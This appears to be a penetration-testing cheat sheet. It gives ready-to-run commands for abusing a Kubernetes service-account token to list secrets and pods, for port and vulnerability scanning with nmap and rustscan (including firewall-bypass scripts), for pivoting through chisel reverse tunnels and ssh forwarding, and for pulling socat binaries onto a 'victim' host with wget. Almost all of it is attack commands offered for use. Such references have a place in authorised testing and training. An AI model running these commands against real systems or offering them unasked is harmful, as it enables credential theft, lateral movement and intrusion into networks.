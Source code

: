 ### Kubernetes
Kubernetes service accounts path
```
/var/run/secrets/kubernetes.io/serviceaccount/{ca.crt, token, namespace}
```
Listing the pods on Kubernetes
```
kubectl --token=`cat token` --insecure-skip-tls-verify --namespace=default --server=https://10.0.0.1:8443/ get pods
```
Check privilege of current service account
```
kubectl --token=`cat token` --insecure-skip-tls-verify --namespace=default --server=https://10.0.0.1:8443/ auth can-i --list
```
Listing resources
```
kubectl --token=`cat token` --insecure-skip-tls-verify --namespace=default --server=https://10.0.0.1:8443/ get secrets
```
Read resources
```
kubectl --token=`cat token` --insecure-skip-tls-verify --namespace=default --server=https://10.0.0.1:8443/ get [resource] [name] -o yaml
```

## Network exploitation & enumeration

### Port Enumeration
#### https://nmap.org/nsedoc/scripts/
```
nmap -p- -A --min-rate 10000 -oN [save file] 10.0.0.1
rustscan -u 5000 -a 'machine-ip' -- -sC -sV
rustscan -u 5000 -b 2250 -t 2000 -a 'ip' -- -A -oN scan.txt
nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.0.0.1
nmap --script firewall-bypass <target>
nmap --script firewall-bypass --script-args firewall-bypass.helper="ftp",firewall-bypass.targetport=21 <target>
nmap -n -sV --script="ldap* and not brute" -p 389 127.0.0.1 
nmap 10.0.0.1 -p139,445 --script=smb-vuln*
nmap --script=vuln -p 80 10.0.0.1
```

### Network pivoting
#### https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html
Basic server listener (to pivot into the network behind it) using chisel
```
chisel server -p 8000 --reverse (on local machine)
chisel client [local-ip]:8000 R:[port-to-forward]:[ip-to-forward]:[port-to-forward] (on remote machine)
```
Basic client listener (unable to connect to the internet on remote machine) using chisel
```
chisel server -p 8000 (on local machine)
chisel client [local-ip]:8000 9001:www.exploit-db.com:443 (on remote machine)
```
Port forwarding with ssh
```
ssh -L 4444:10.0.0.1:4444 [user]@10.0.0.1
```
Port forwarding with socat
```
wget http://10.0.0.1:4444/socat --on victim to get socat binaries from local machine
chmod +x socat
```